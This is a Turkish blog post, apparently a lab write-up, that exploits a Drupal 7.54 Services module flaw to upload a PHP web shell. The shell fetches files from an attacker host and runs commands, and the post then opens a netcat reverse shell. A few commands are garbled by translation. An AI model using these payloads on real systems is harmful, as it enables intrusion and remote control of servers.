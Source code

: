 ```yaml
---
layout: post
title: Drupal 7.x Module Services Remote Shell Upload
date: 2022-02-23 21:17
author: theguler
comments: true
categories: [Hacking - Security]
---
```

<!-- wp:heading -->
<h2 id="exploiting-zaafiyeti-test-edelim">Exploiting – Zaafiyeti test edelim.</h2>
<!-- /wp:heading -->

<!-- wp:paragraph -->
<p>İlk olarak Drupal sürümünü belirleyelim.&nbsp;Bunun için tarayıcıdan CHANGELOG.txt dosyasına erişebiliriz, bu hazır bir Drupal şablonudur.</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><!-- wp:list-item -->
<li><a href="http://10.10.10.9/CHANGELOG.txt">http://10.10.10.9/CHANGELOG.txt</a></li>
<!-- /wp:list-item --></ul>
<!-- /wp:list -->

<!-- wp:image {"id":4579} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-150.png" alt="" class="wp-image-4579" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Drupal 7.54 sürümü olduğunu bize söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>2. Bir sürümle ilişkili Zaafiyetler'i bulmak için searchsploit‘i kullanabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit drupal 7</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4580} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-151.png" alt="" class="wp-image-4580" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>3. Şimdi bu betiği<strong> /home/vry4n/Desktop </strong>dizinimize indirelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">searchsploit -m php/webapps/41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4581} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-152.png" alt="" class="wp-image-4581" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>4. Önce kodu değiştireceğiz, değiştirmemiz gereken kısmı vurguladım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">vi 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4582,"width":608,"height":598} -->
<figure class="wp-block-image is-resized"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-153.png" alt="" class="wp-image-4582" width="608" height="598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>5. Önce tarayıcımzı açarak $endpoint_path’in var olduğunu görelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">http://10.10.10.9/rest_endpoint
404 Bulunamadı</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4583} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-154.png" alt="" class="wp-image-4583" /></figure>
<!-- /wp:image -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">http://10.10.10.9/rest
20OK (found)</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4584} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-155.png" alt="" class="wp-image-4584" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>6. Bulduk.. Simdi Aşağıdaki gibi düzenleyelim.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$url = ‘http://10.10.10.9’;

$endpoint_path = ‘/rest’;

$endpoint = ‘rest_endpoint’;

$file = [

&nbsp; &nbsp; ‘filename’ =&gt; ‘test.php’,

&nbsp; &nbsp; ‘data’ =&gt; ‘&lt;?php echo “Vry4n was here!!”; ?&gt;’

];</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4585} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-156.png" alt="" class="wp-image-4585" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>7. php-curl kurmamız gerekebilir.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">sudo apt-get install php-curl</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4586} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-157.png" alt="" class="wp-image-4586" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>php-curl </strong>yüklemeden önce aldığımız HATA</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4587} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-158.png" alt="" class="wp-image-4587" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Komut dosyasını yürütelim.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4588} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-159.png" alt="" class="wp-image-4588" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>9. Kod başarıyla yürütüldü ve bize&nbsp;<a href="http://10.10.10.9/test.php">http://10.10.10.9/test.php</a>&nbsp;adresini ziyaret etmemizi söylüyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">http://10.10.10.9/test.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4589} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-160.png" alt="" class="wp-image-4589" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>10. Dosyayı oluşturduk ve uzak Drupal sunucusunda çalıştırdık.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>11. Şimdi yeni dosyalar yükleyebilen ve komutları çalıştırabilen bir dosya oluşturacağız.&nbsp;test.php betiğimize aşağıdaki kodu ekleyeceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">$phpCode = &lt;&lt;&lt;‘EOD’

&lt;?php

&nbsp; &nbsp; if (isset($_REQUEST[‘fupload’])) {

&nbsp; &nbsp; &nbsp; &nbsp; file_put_contents($_REQUEST[‘fupload’], file_get_contents(“http://10.10.14.12:8888/” . $_REQUEST[‘fupload’]));

&nbsp; &nbsp; };

&nbsp; &nbsp; if (isset($_REQUEST[‘fexec’])) {

&nbsp; &nbsp; &nbsp; &nbsp; echo “&lt;pre&gt;” . shell_exec($_REQUEST[‘fexec’]) . “&lt;/pre&gt;”;

&nbsp; &nbsp; };

?&gt;

EOD;

$file = [

‘filename’ =&gt; ‘vry4n.php’,

‘data’ =&gt; $phpCode

];</pre>
<!-- /wp:preformatted -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>vi 41564.php</strong></pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4590} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-161.png" alt="" class="wp-image-4590" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>12. Şimdi yeni dosyayı yüklemek için betiği tekrar çalıştıralım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">php 41564.php</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4591} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-162.png" alt="" class="wp-image-4591" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>13. Bu noktada vry4n.php dosyası yüklendi, 2 değişken kullanabiliriz&nbsp;<strong>fupload</strong>&nbsp;&amp;&nbsp;<strong>fexec</strong>&nbsp;.&nbsp;Temel komutları test etmek&nbsp;için ilk&nbsp;<strong>fexec’i</strong>&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">http://10.10.10.9/vry4n.php?fexec=dir</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4592} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-163.png" alt="" class="wp-image-4592" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>14. Artık komutları çalıştırabileceğimize göre,&nbsp;<strong>fupload</strong>&nbsp;işlevselliğini&nbsp;test edebiliriz&nbsp;.&nbsp;Bir resim yükleyeceğiz.&nbsp;Öncelikle bir web sunucusu başlatmamız ve script'te yazdığımız ayarların aynısını kullanmamız gerekiyor.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">python3.9 -m http.server 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4593} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-164.png" alt="" class="wp-image-4593" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>15. Şimdi tarayıcıya gitmemiz gerekiyor,&nbsp;<strong>fupload</strong>&nbsp;değişkenini&nbsp;kullanacağız.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">http://10.10.10.9/vry4n.php?fupload=vk9sec.jpg

http:// 10.10.10.9/vk9sec.jpg</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4594} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-165.png" alt="" class="wp-image-4594" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>16. Artık herhangi bir talimat yürütmeden önce sistem hakkında bilgi toplayabiliriz.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">http://10.10.10.9/vry4n.php?fexec=systeminfo</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4595} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-166.png" alt="" class="wp-image-4595" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Not: Görüldüğü üzere Yamasız bir x64 bit sistemimiz var, Microsoft Windows Server 2008 R2 Datacenter</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>17. Şimdi&nbsp;<a href="https://eternallybored.org/misc/netcat/">https://eternallybored.org/misc/netcat/ adresinden</a>&nbsp;Windows için bir x64 netcat indireceğiz.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://eternallybored.org/misc/netcat/"></a></p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted"><strong>#netcat-win32-1.11.zip dosyasını açın.</strong>

cd netcat-1.11 &amp;&amp; ls

python3.9 -m http.sunucu 8888</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4596} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-167.png" alt="" class="wp-image-4596" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>18. Şimdi local bir dinleyici başlatalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">nc -lvp 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:image {"id":4597} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-168.png" alt="" class="wp-image-4597" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>19. Tarayıcıdan&nbsp;, yürütmek için&nbsp;netcat &amp;&nbsp;<strong>fexec</strong>&nbsp;yüklemek&nbsp;için&nbsp;<strong>fupload</strong>&nbsp;değişkenini kullanalım.</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">http://10.10.10.9/vry4n.php?fupload=nc64.exe&amp;fexec=nc64.exe -e cmd 10.10.14.12 7777</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>20. nc64.exe dosyasını indirmek için web sunucumuza 200 OK diyoruz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4598} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-169.png" alt="" class="wp-image-4598" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>21. Dinleyiciyi kontrol ederken, şimdi yürütmeden sonra bir shell görmeliyiz.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":4599} -->
<figure class="wp-block-image"><img src="https://vk9-sec.com/wp-content/uploads/2021/03/word-image-170.png" alt="" class="wp-image-4599" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p><strong>Çözüm nedir – Quick solution</strong></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Acilen Drupal sürümünü yükseltin. – Upgrade Drupal urgently</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>ilgili link:&nbsp;<a href="https://www.exploit-db.com/exploits/41564">https://www.exploit-db.com/exploits/41564</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><strong>Saygılarımla. – Best regards.</strong></p>
<!-- /wp:paragraph -->
